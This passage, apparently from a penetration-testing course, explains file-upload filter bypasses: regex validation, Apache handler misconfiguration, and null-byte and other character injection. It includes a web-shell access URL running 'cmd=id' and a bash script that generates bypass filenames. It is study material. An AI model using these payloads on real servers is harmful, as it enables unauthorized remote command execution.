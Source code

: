 If successful, commands execute on the back-end server.

### Strict Regex Validation
Some applications use stricter patterns:

```php
if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) { ...SNIP... }
```

Here, the `$` ensures the filename ends with a valid extension, preventing Double Extensions. Exploiting such configurations often relies on outdated systems or misconfigurations.

### Reverse Double Extension
Even with strict validation, server misconfigurations can lead to vulnerabilities. For example:

Apache2 configuration (`/etc/apache2/mods-enabled/php7.4.conf`):
```xml
<FilesMatch ".+\.ph(ar|p|tml)">
    SetHandler application/x-httpd-php
</FilesMatch>
```

If the regex does not end with `$`, filenames like `shell.php.jpg` pass validation but execute PHP code on upload due to the server configuration.

#### Exercise
Test filenames like:

- `shell.php.jpg`

Access the uploaded file:

```
http://SERVER_IP:PORT/profile_images/shell.php.jpg?cmd=id
```

### Character Injection
Injecting specific characters can trick the server into misinterpreting the file extension. Examples:

- `%20`, `%0a`, `%00`, `%0d0a`
- `/`, `.\`, `.`, `…`, `:`

For example:

- `shell.php%00.jpg`

In older PHP servers (5.X or earlier), this stores the file as `shell.php` while passing validation.

#### Bash Script for Permutations
Generate permutations with a script:

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```
